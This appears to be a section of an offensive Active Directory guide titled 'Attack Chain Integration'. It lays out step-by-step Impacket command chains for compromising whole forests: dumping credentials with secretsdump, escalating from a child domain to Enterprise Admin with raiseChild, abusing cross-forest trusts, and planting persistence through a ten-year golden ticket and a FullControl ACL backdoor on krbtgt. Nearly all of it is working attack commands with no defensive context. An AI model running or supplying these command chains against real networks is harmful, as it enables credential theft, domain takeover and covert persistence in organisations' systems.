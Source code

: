 ## Attack Chain Integration

### Complete Forest Compromise
```bash
# Step 1: Gain child domain admin (via other attacks)
python3 secretsdump.py child.domain.local/user:password@childdc.child.domain.local

# Step 2: Use child admin for forest escalation
python3 raiseChild.py -w forest_ticket.ccache child.domain.local/admin:extractedpass

# Step 3: Extract all forest credentials
export KRB5CCNAME=forest_ticket.ccache
python3 secretsdump.py -k -no-pass forest.local/admin@forestdc.forest.local -just-dc
```

### Multi-Domain Forest Takeover
```bash
# Step 1: Escalate from child to forest root
python3 raiseChild.py -w ea_ticket.ccache child1.forest.local/admin:password

# Step 2: Use Enterprise Admin to access all child domains
export KRB5CCNAME=ea_ticket.ccache
python3 secretsdump.py -k -no-pass forest.local/admin@child2dc.child2.forest.local
python3 secretsdump.py -k -no-pass forest.local/admin@child3dc.child3.forest.local

# Step 3: Deploy persistence across all domains
python3 psexec.py -k -no-pass forest.local/admin@forestdc.forest.local
```

### Cross-Forest Trust Abuse
```bash
# Step 1: Escalate to Enterprise Admin in first forest
python3 raiseChild.py -w forest1_ea.ccache child.forest1.local/admin:password

# Step 2: Enumerate trusts to other forests
export KRB5CCNAME=forest1_ea.ccache
python3 findDelegation.py -k -no-pass forest1.local/admin@forestdc.forest1.local

# Step 3: Abuse trusts for cross-forest access
python3 getST.py -k -no-pass forest1.local/admin -spn krbtgt/forest2.local
```

### Persistence Through Multiple Vectors
```bash
# Step 1: Perform initial escalation
python3 raiseChild.py -w persistence.ccache child.domain.local/admin:password

# Step 2: Create multiple persistence mechanisms
export KRB5CCNAME=persistence.ccache
# Create golden ticket with longer validity
python3 ticketer.py -nthash [krbtgt_hash] -domain-sid S-1-5-21-forest -domain forest.local -duration 87600 backdoor

# Step 3: Establish additional backdoors
python3 dacledit.py -k -no-pass forest.local/admin -action write -target krbtgt -principal backdoor -rights FullControl
```
